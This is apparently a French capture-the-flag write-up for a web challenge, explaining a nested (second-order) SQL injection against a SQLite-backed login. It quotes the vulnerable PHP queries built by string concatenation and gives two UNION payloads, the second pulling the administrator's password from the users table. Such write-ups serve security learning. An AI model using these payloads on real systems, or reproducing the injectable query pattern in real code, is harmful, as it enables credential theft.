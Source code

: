 # Web 150 - La route est longue

On a une nouvelle injection SQL avec le code source de l’épreuve, celui-ci contient 2 requêtes SQL.
> $q = "select id from users where login = '". $login ."'";  Où $login est un champ utilisateur.
> 
> $q = "select email from admin_list where id_user = $id"; Où $id est le résultat de la requete précédente.

Ici nous sommes en présence d’une base de données SQLITE il nous est donc assez difficile de faire une
injection basée sur le temps (bien que ce soit possible en soumettant une requête qui réalise plusieurs
calculs). 

L’idée ici est d’injecter dans le champ login pour injecter la seconde requête.
>‘union all select “-1 union all select ‘toto’” -- a-

La page nous retourne toto qui correspond à l’email récupérée dans la 2ème requête SQL. On récupère
le mot de passe du premier utilisateur dans la table users:

> union all select "0 union all select password from users limit 0,1"-- a-


Le flag est le mot de passe de l’administrateur : **ese{time_Or_Routed?}**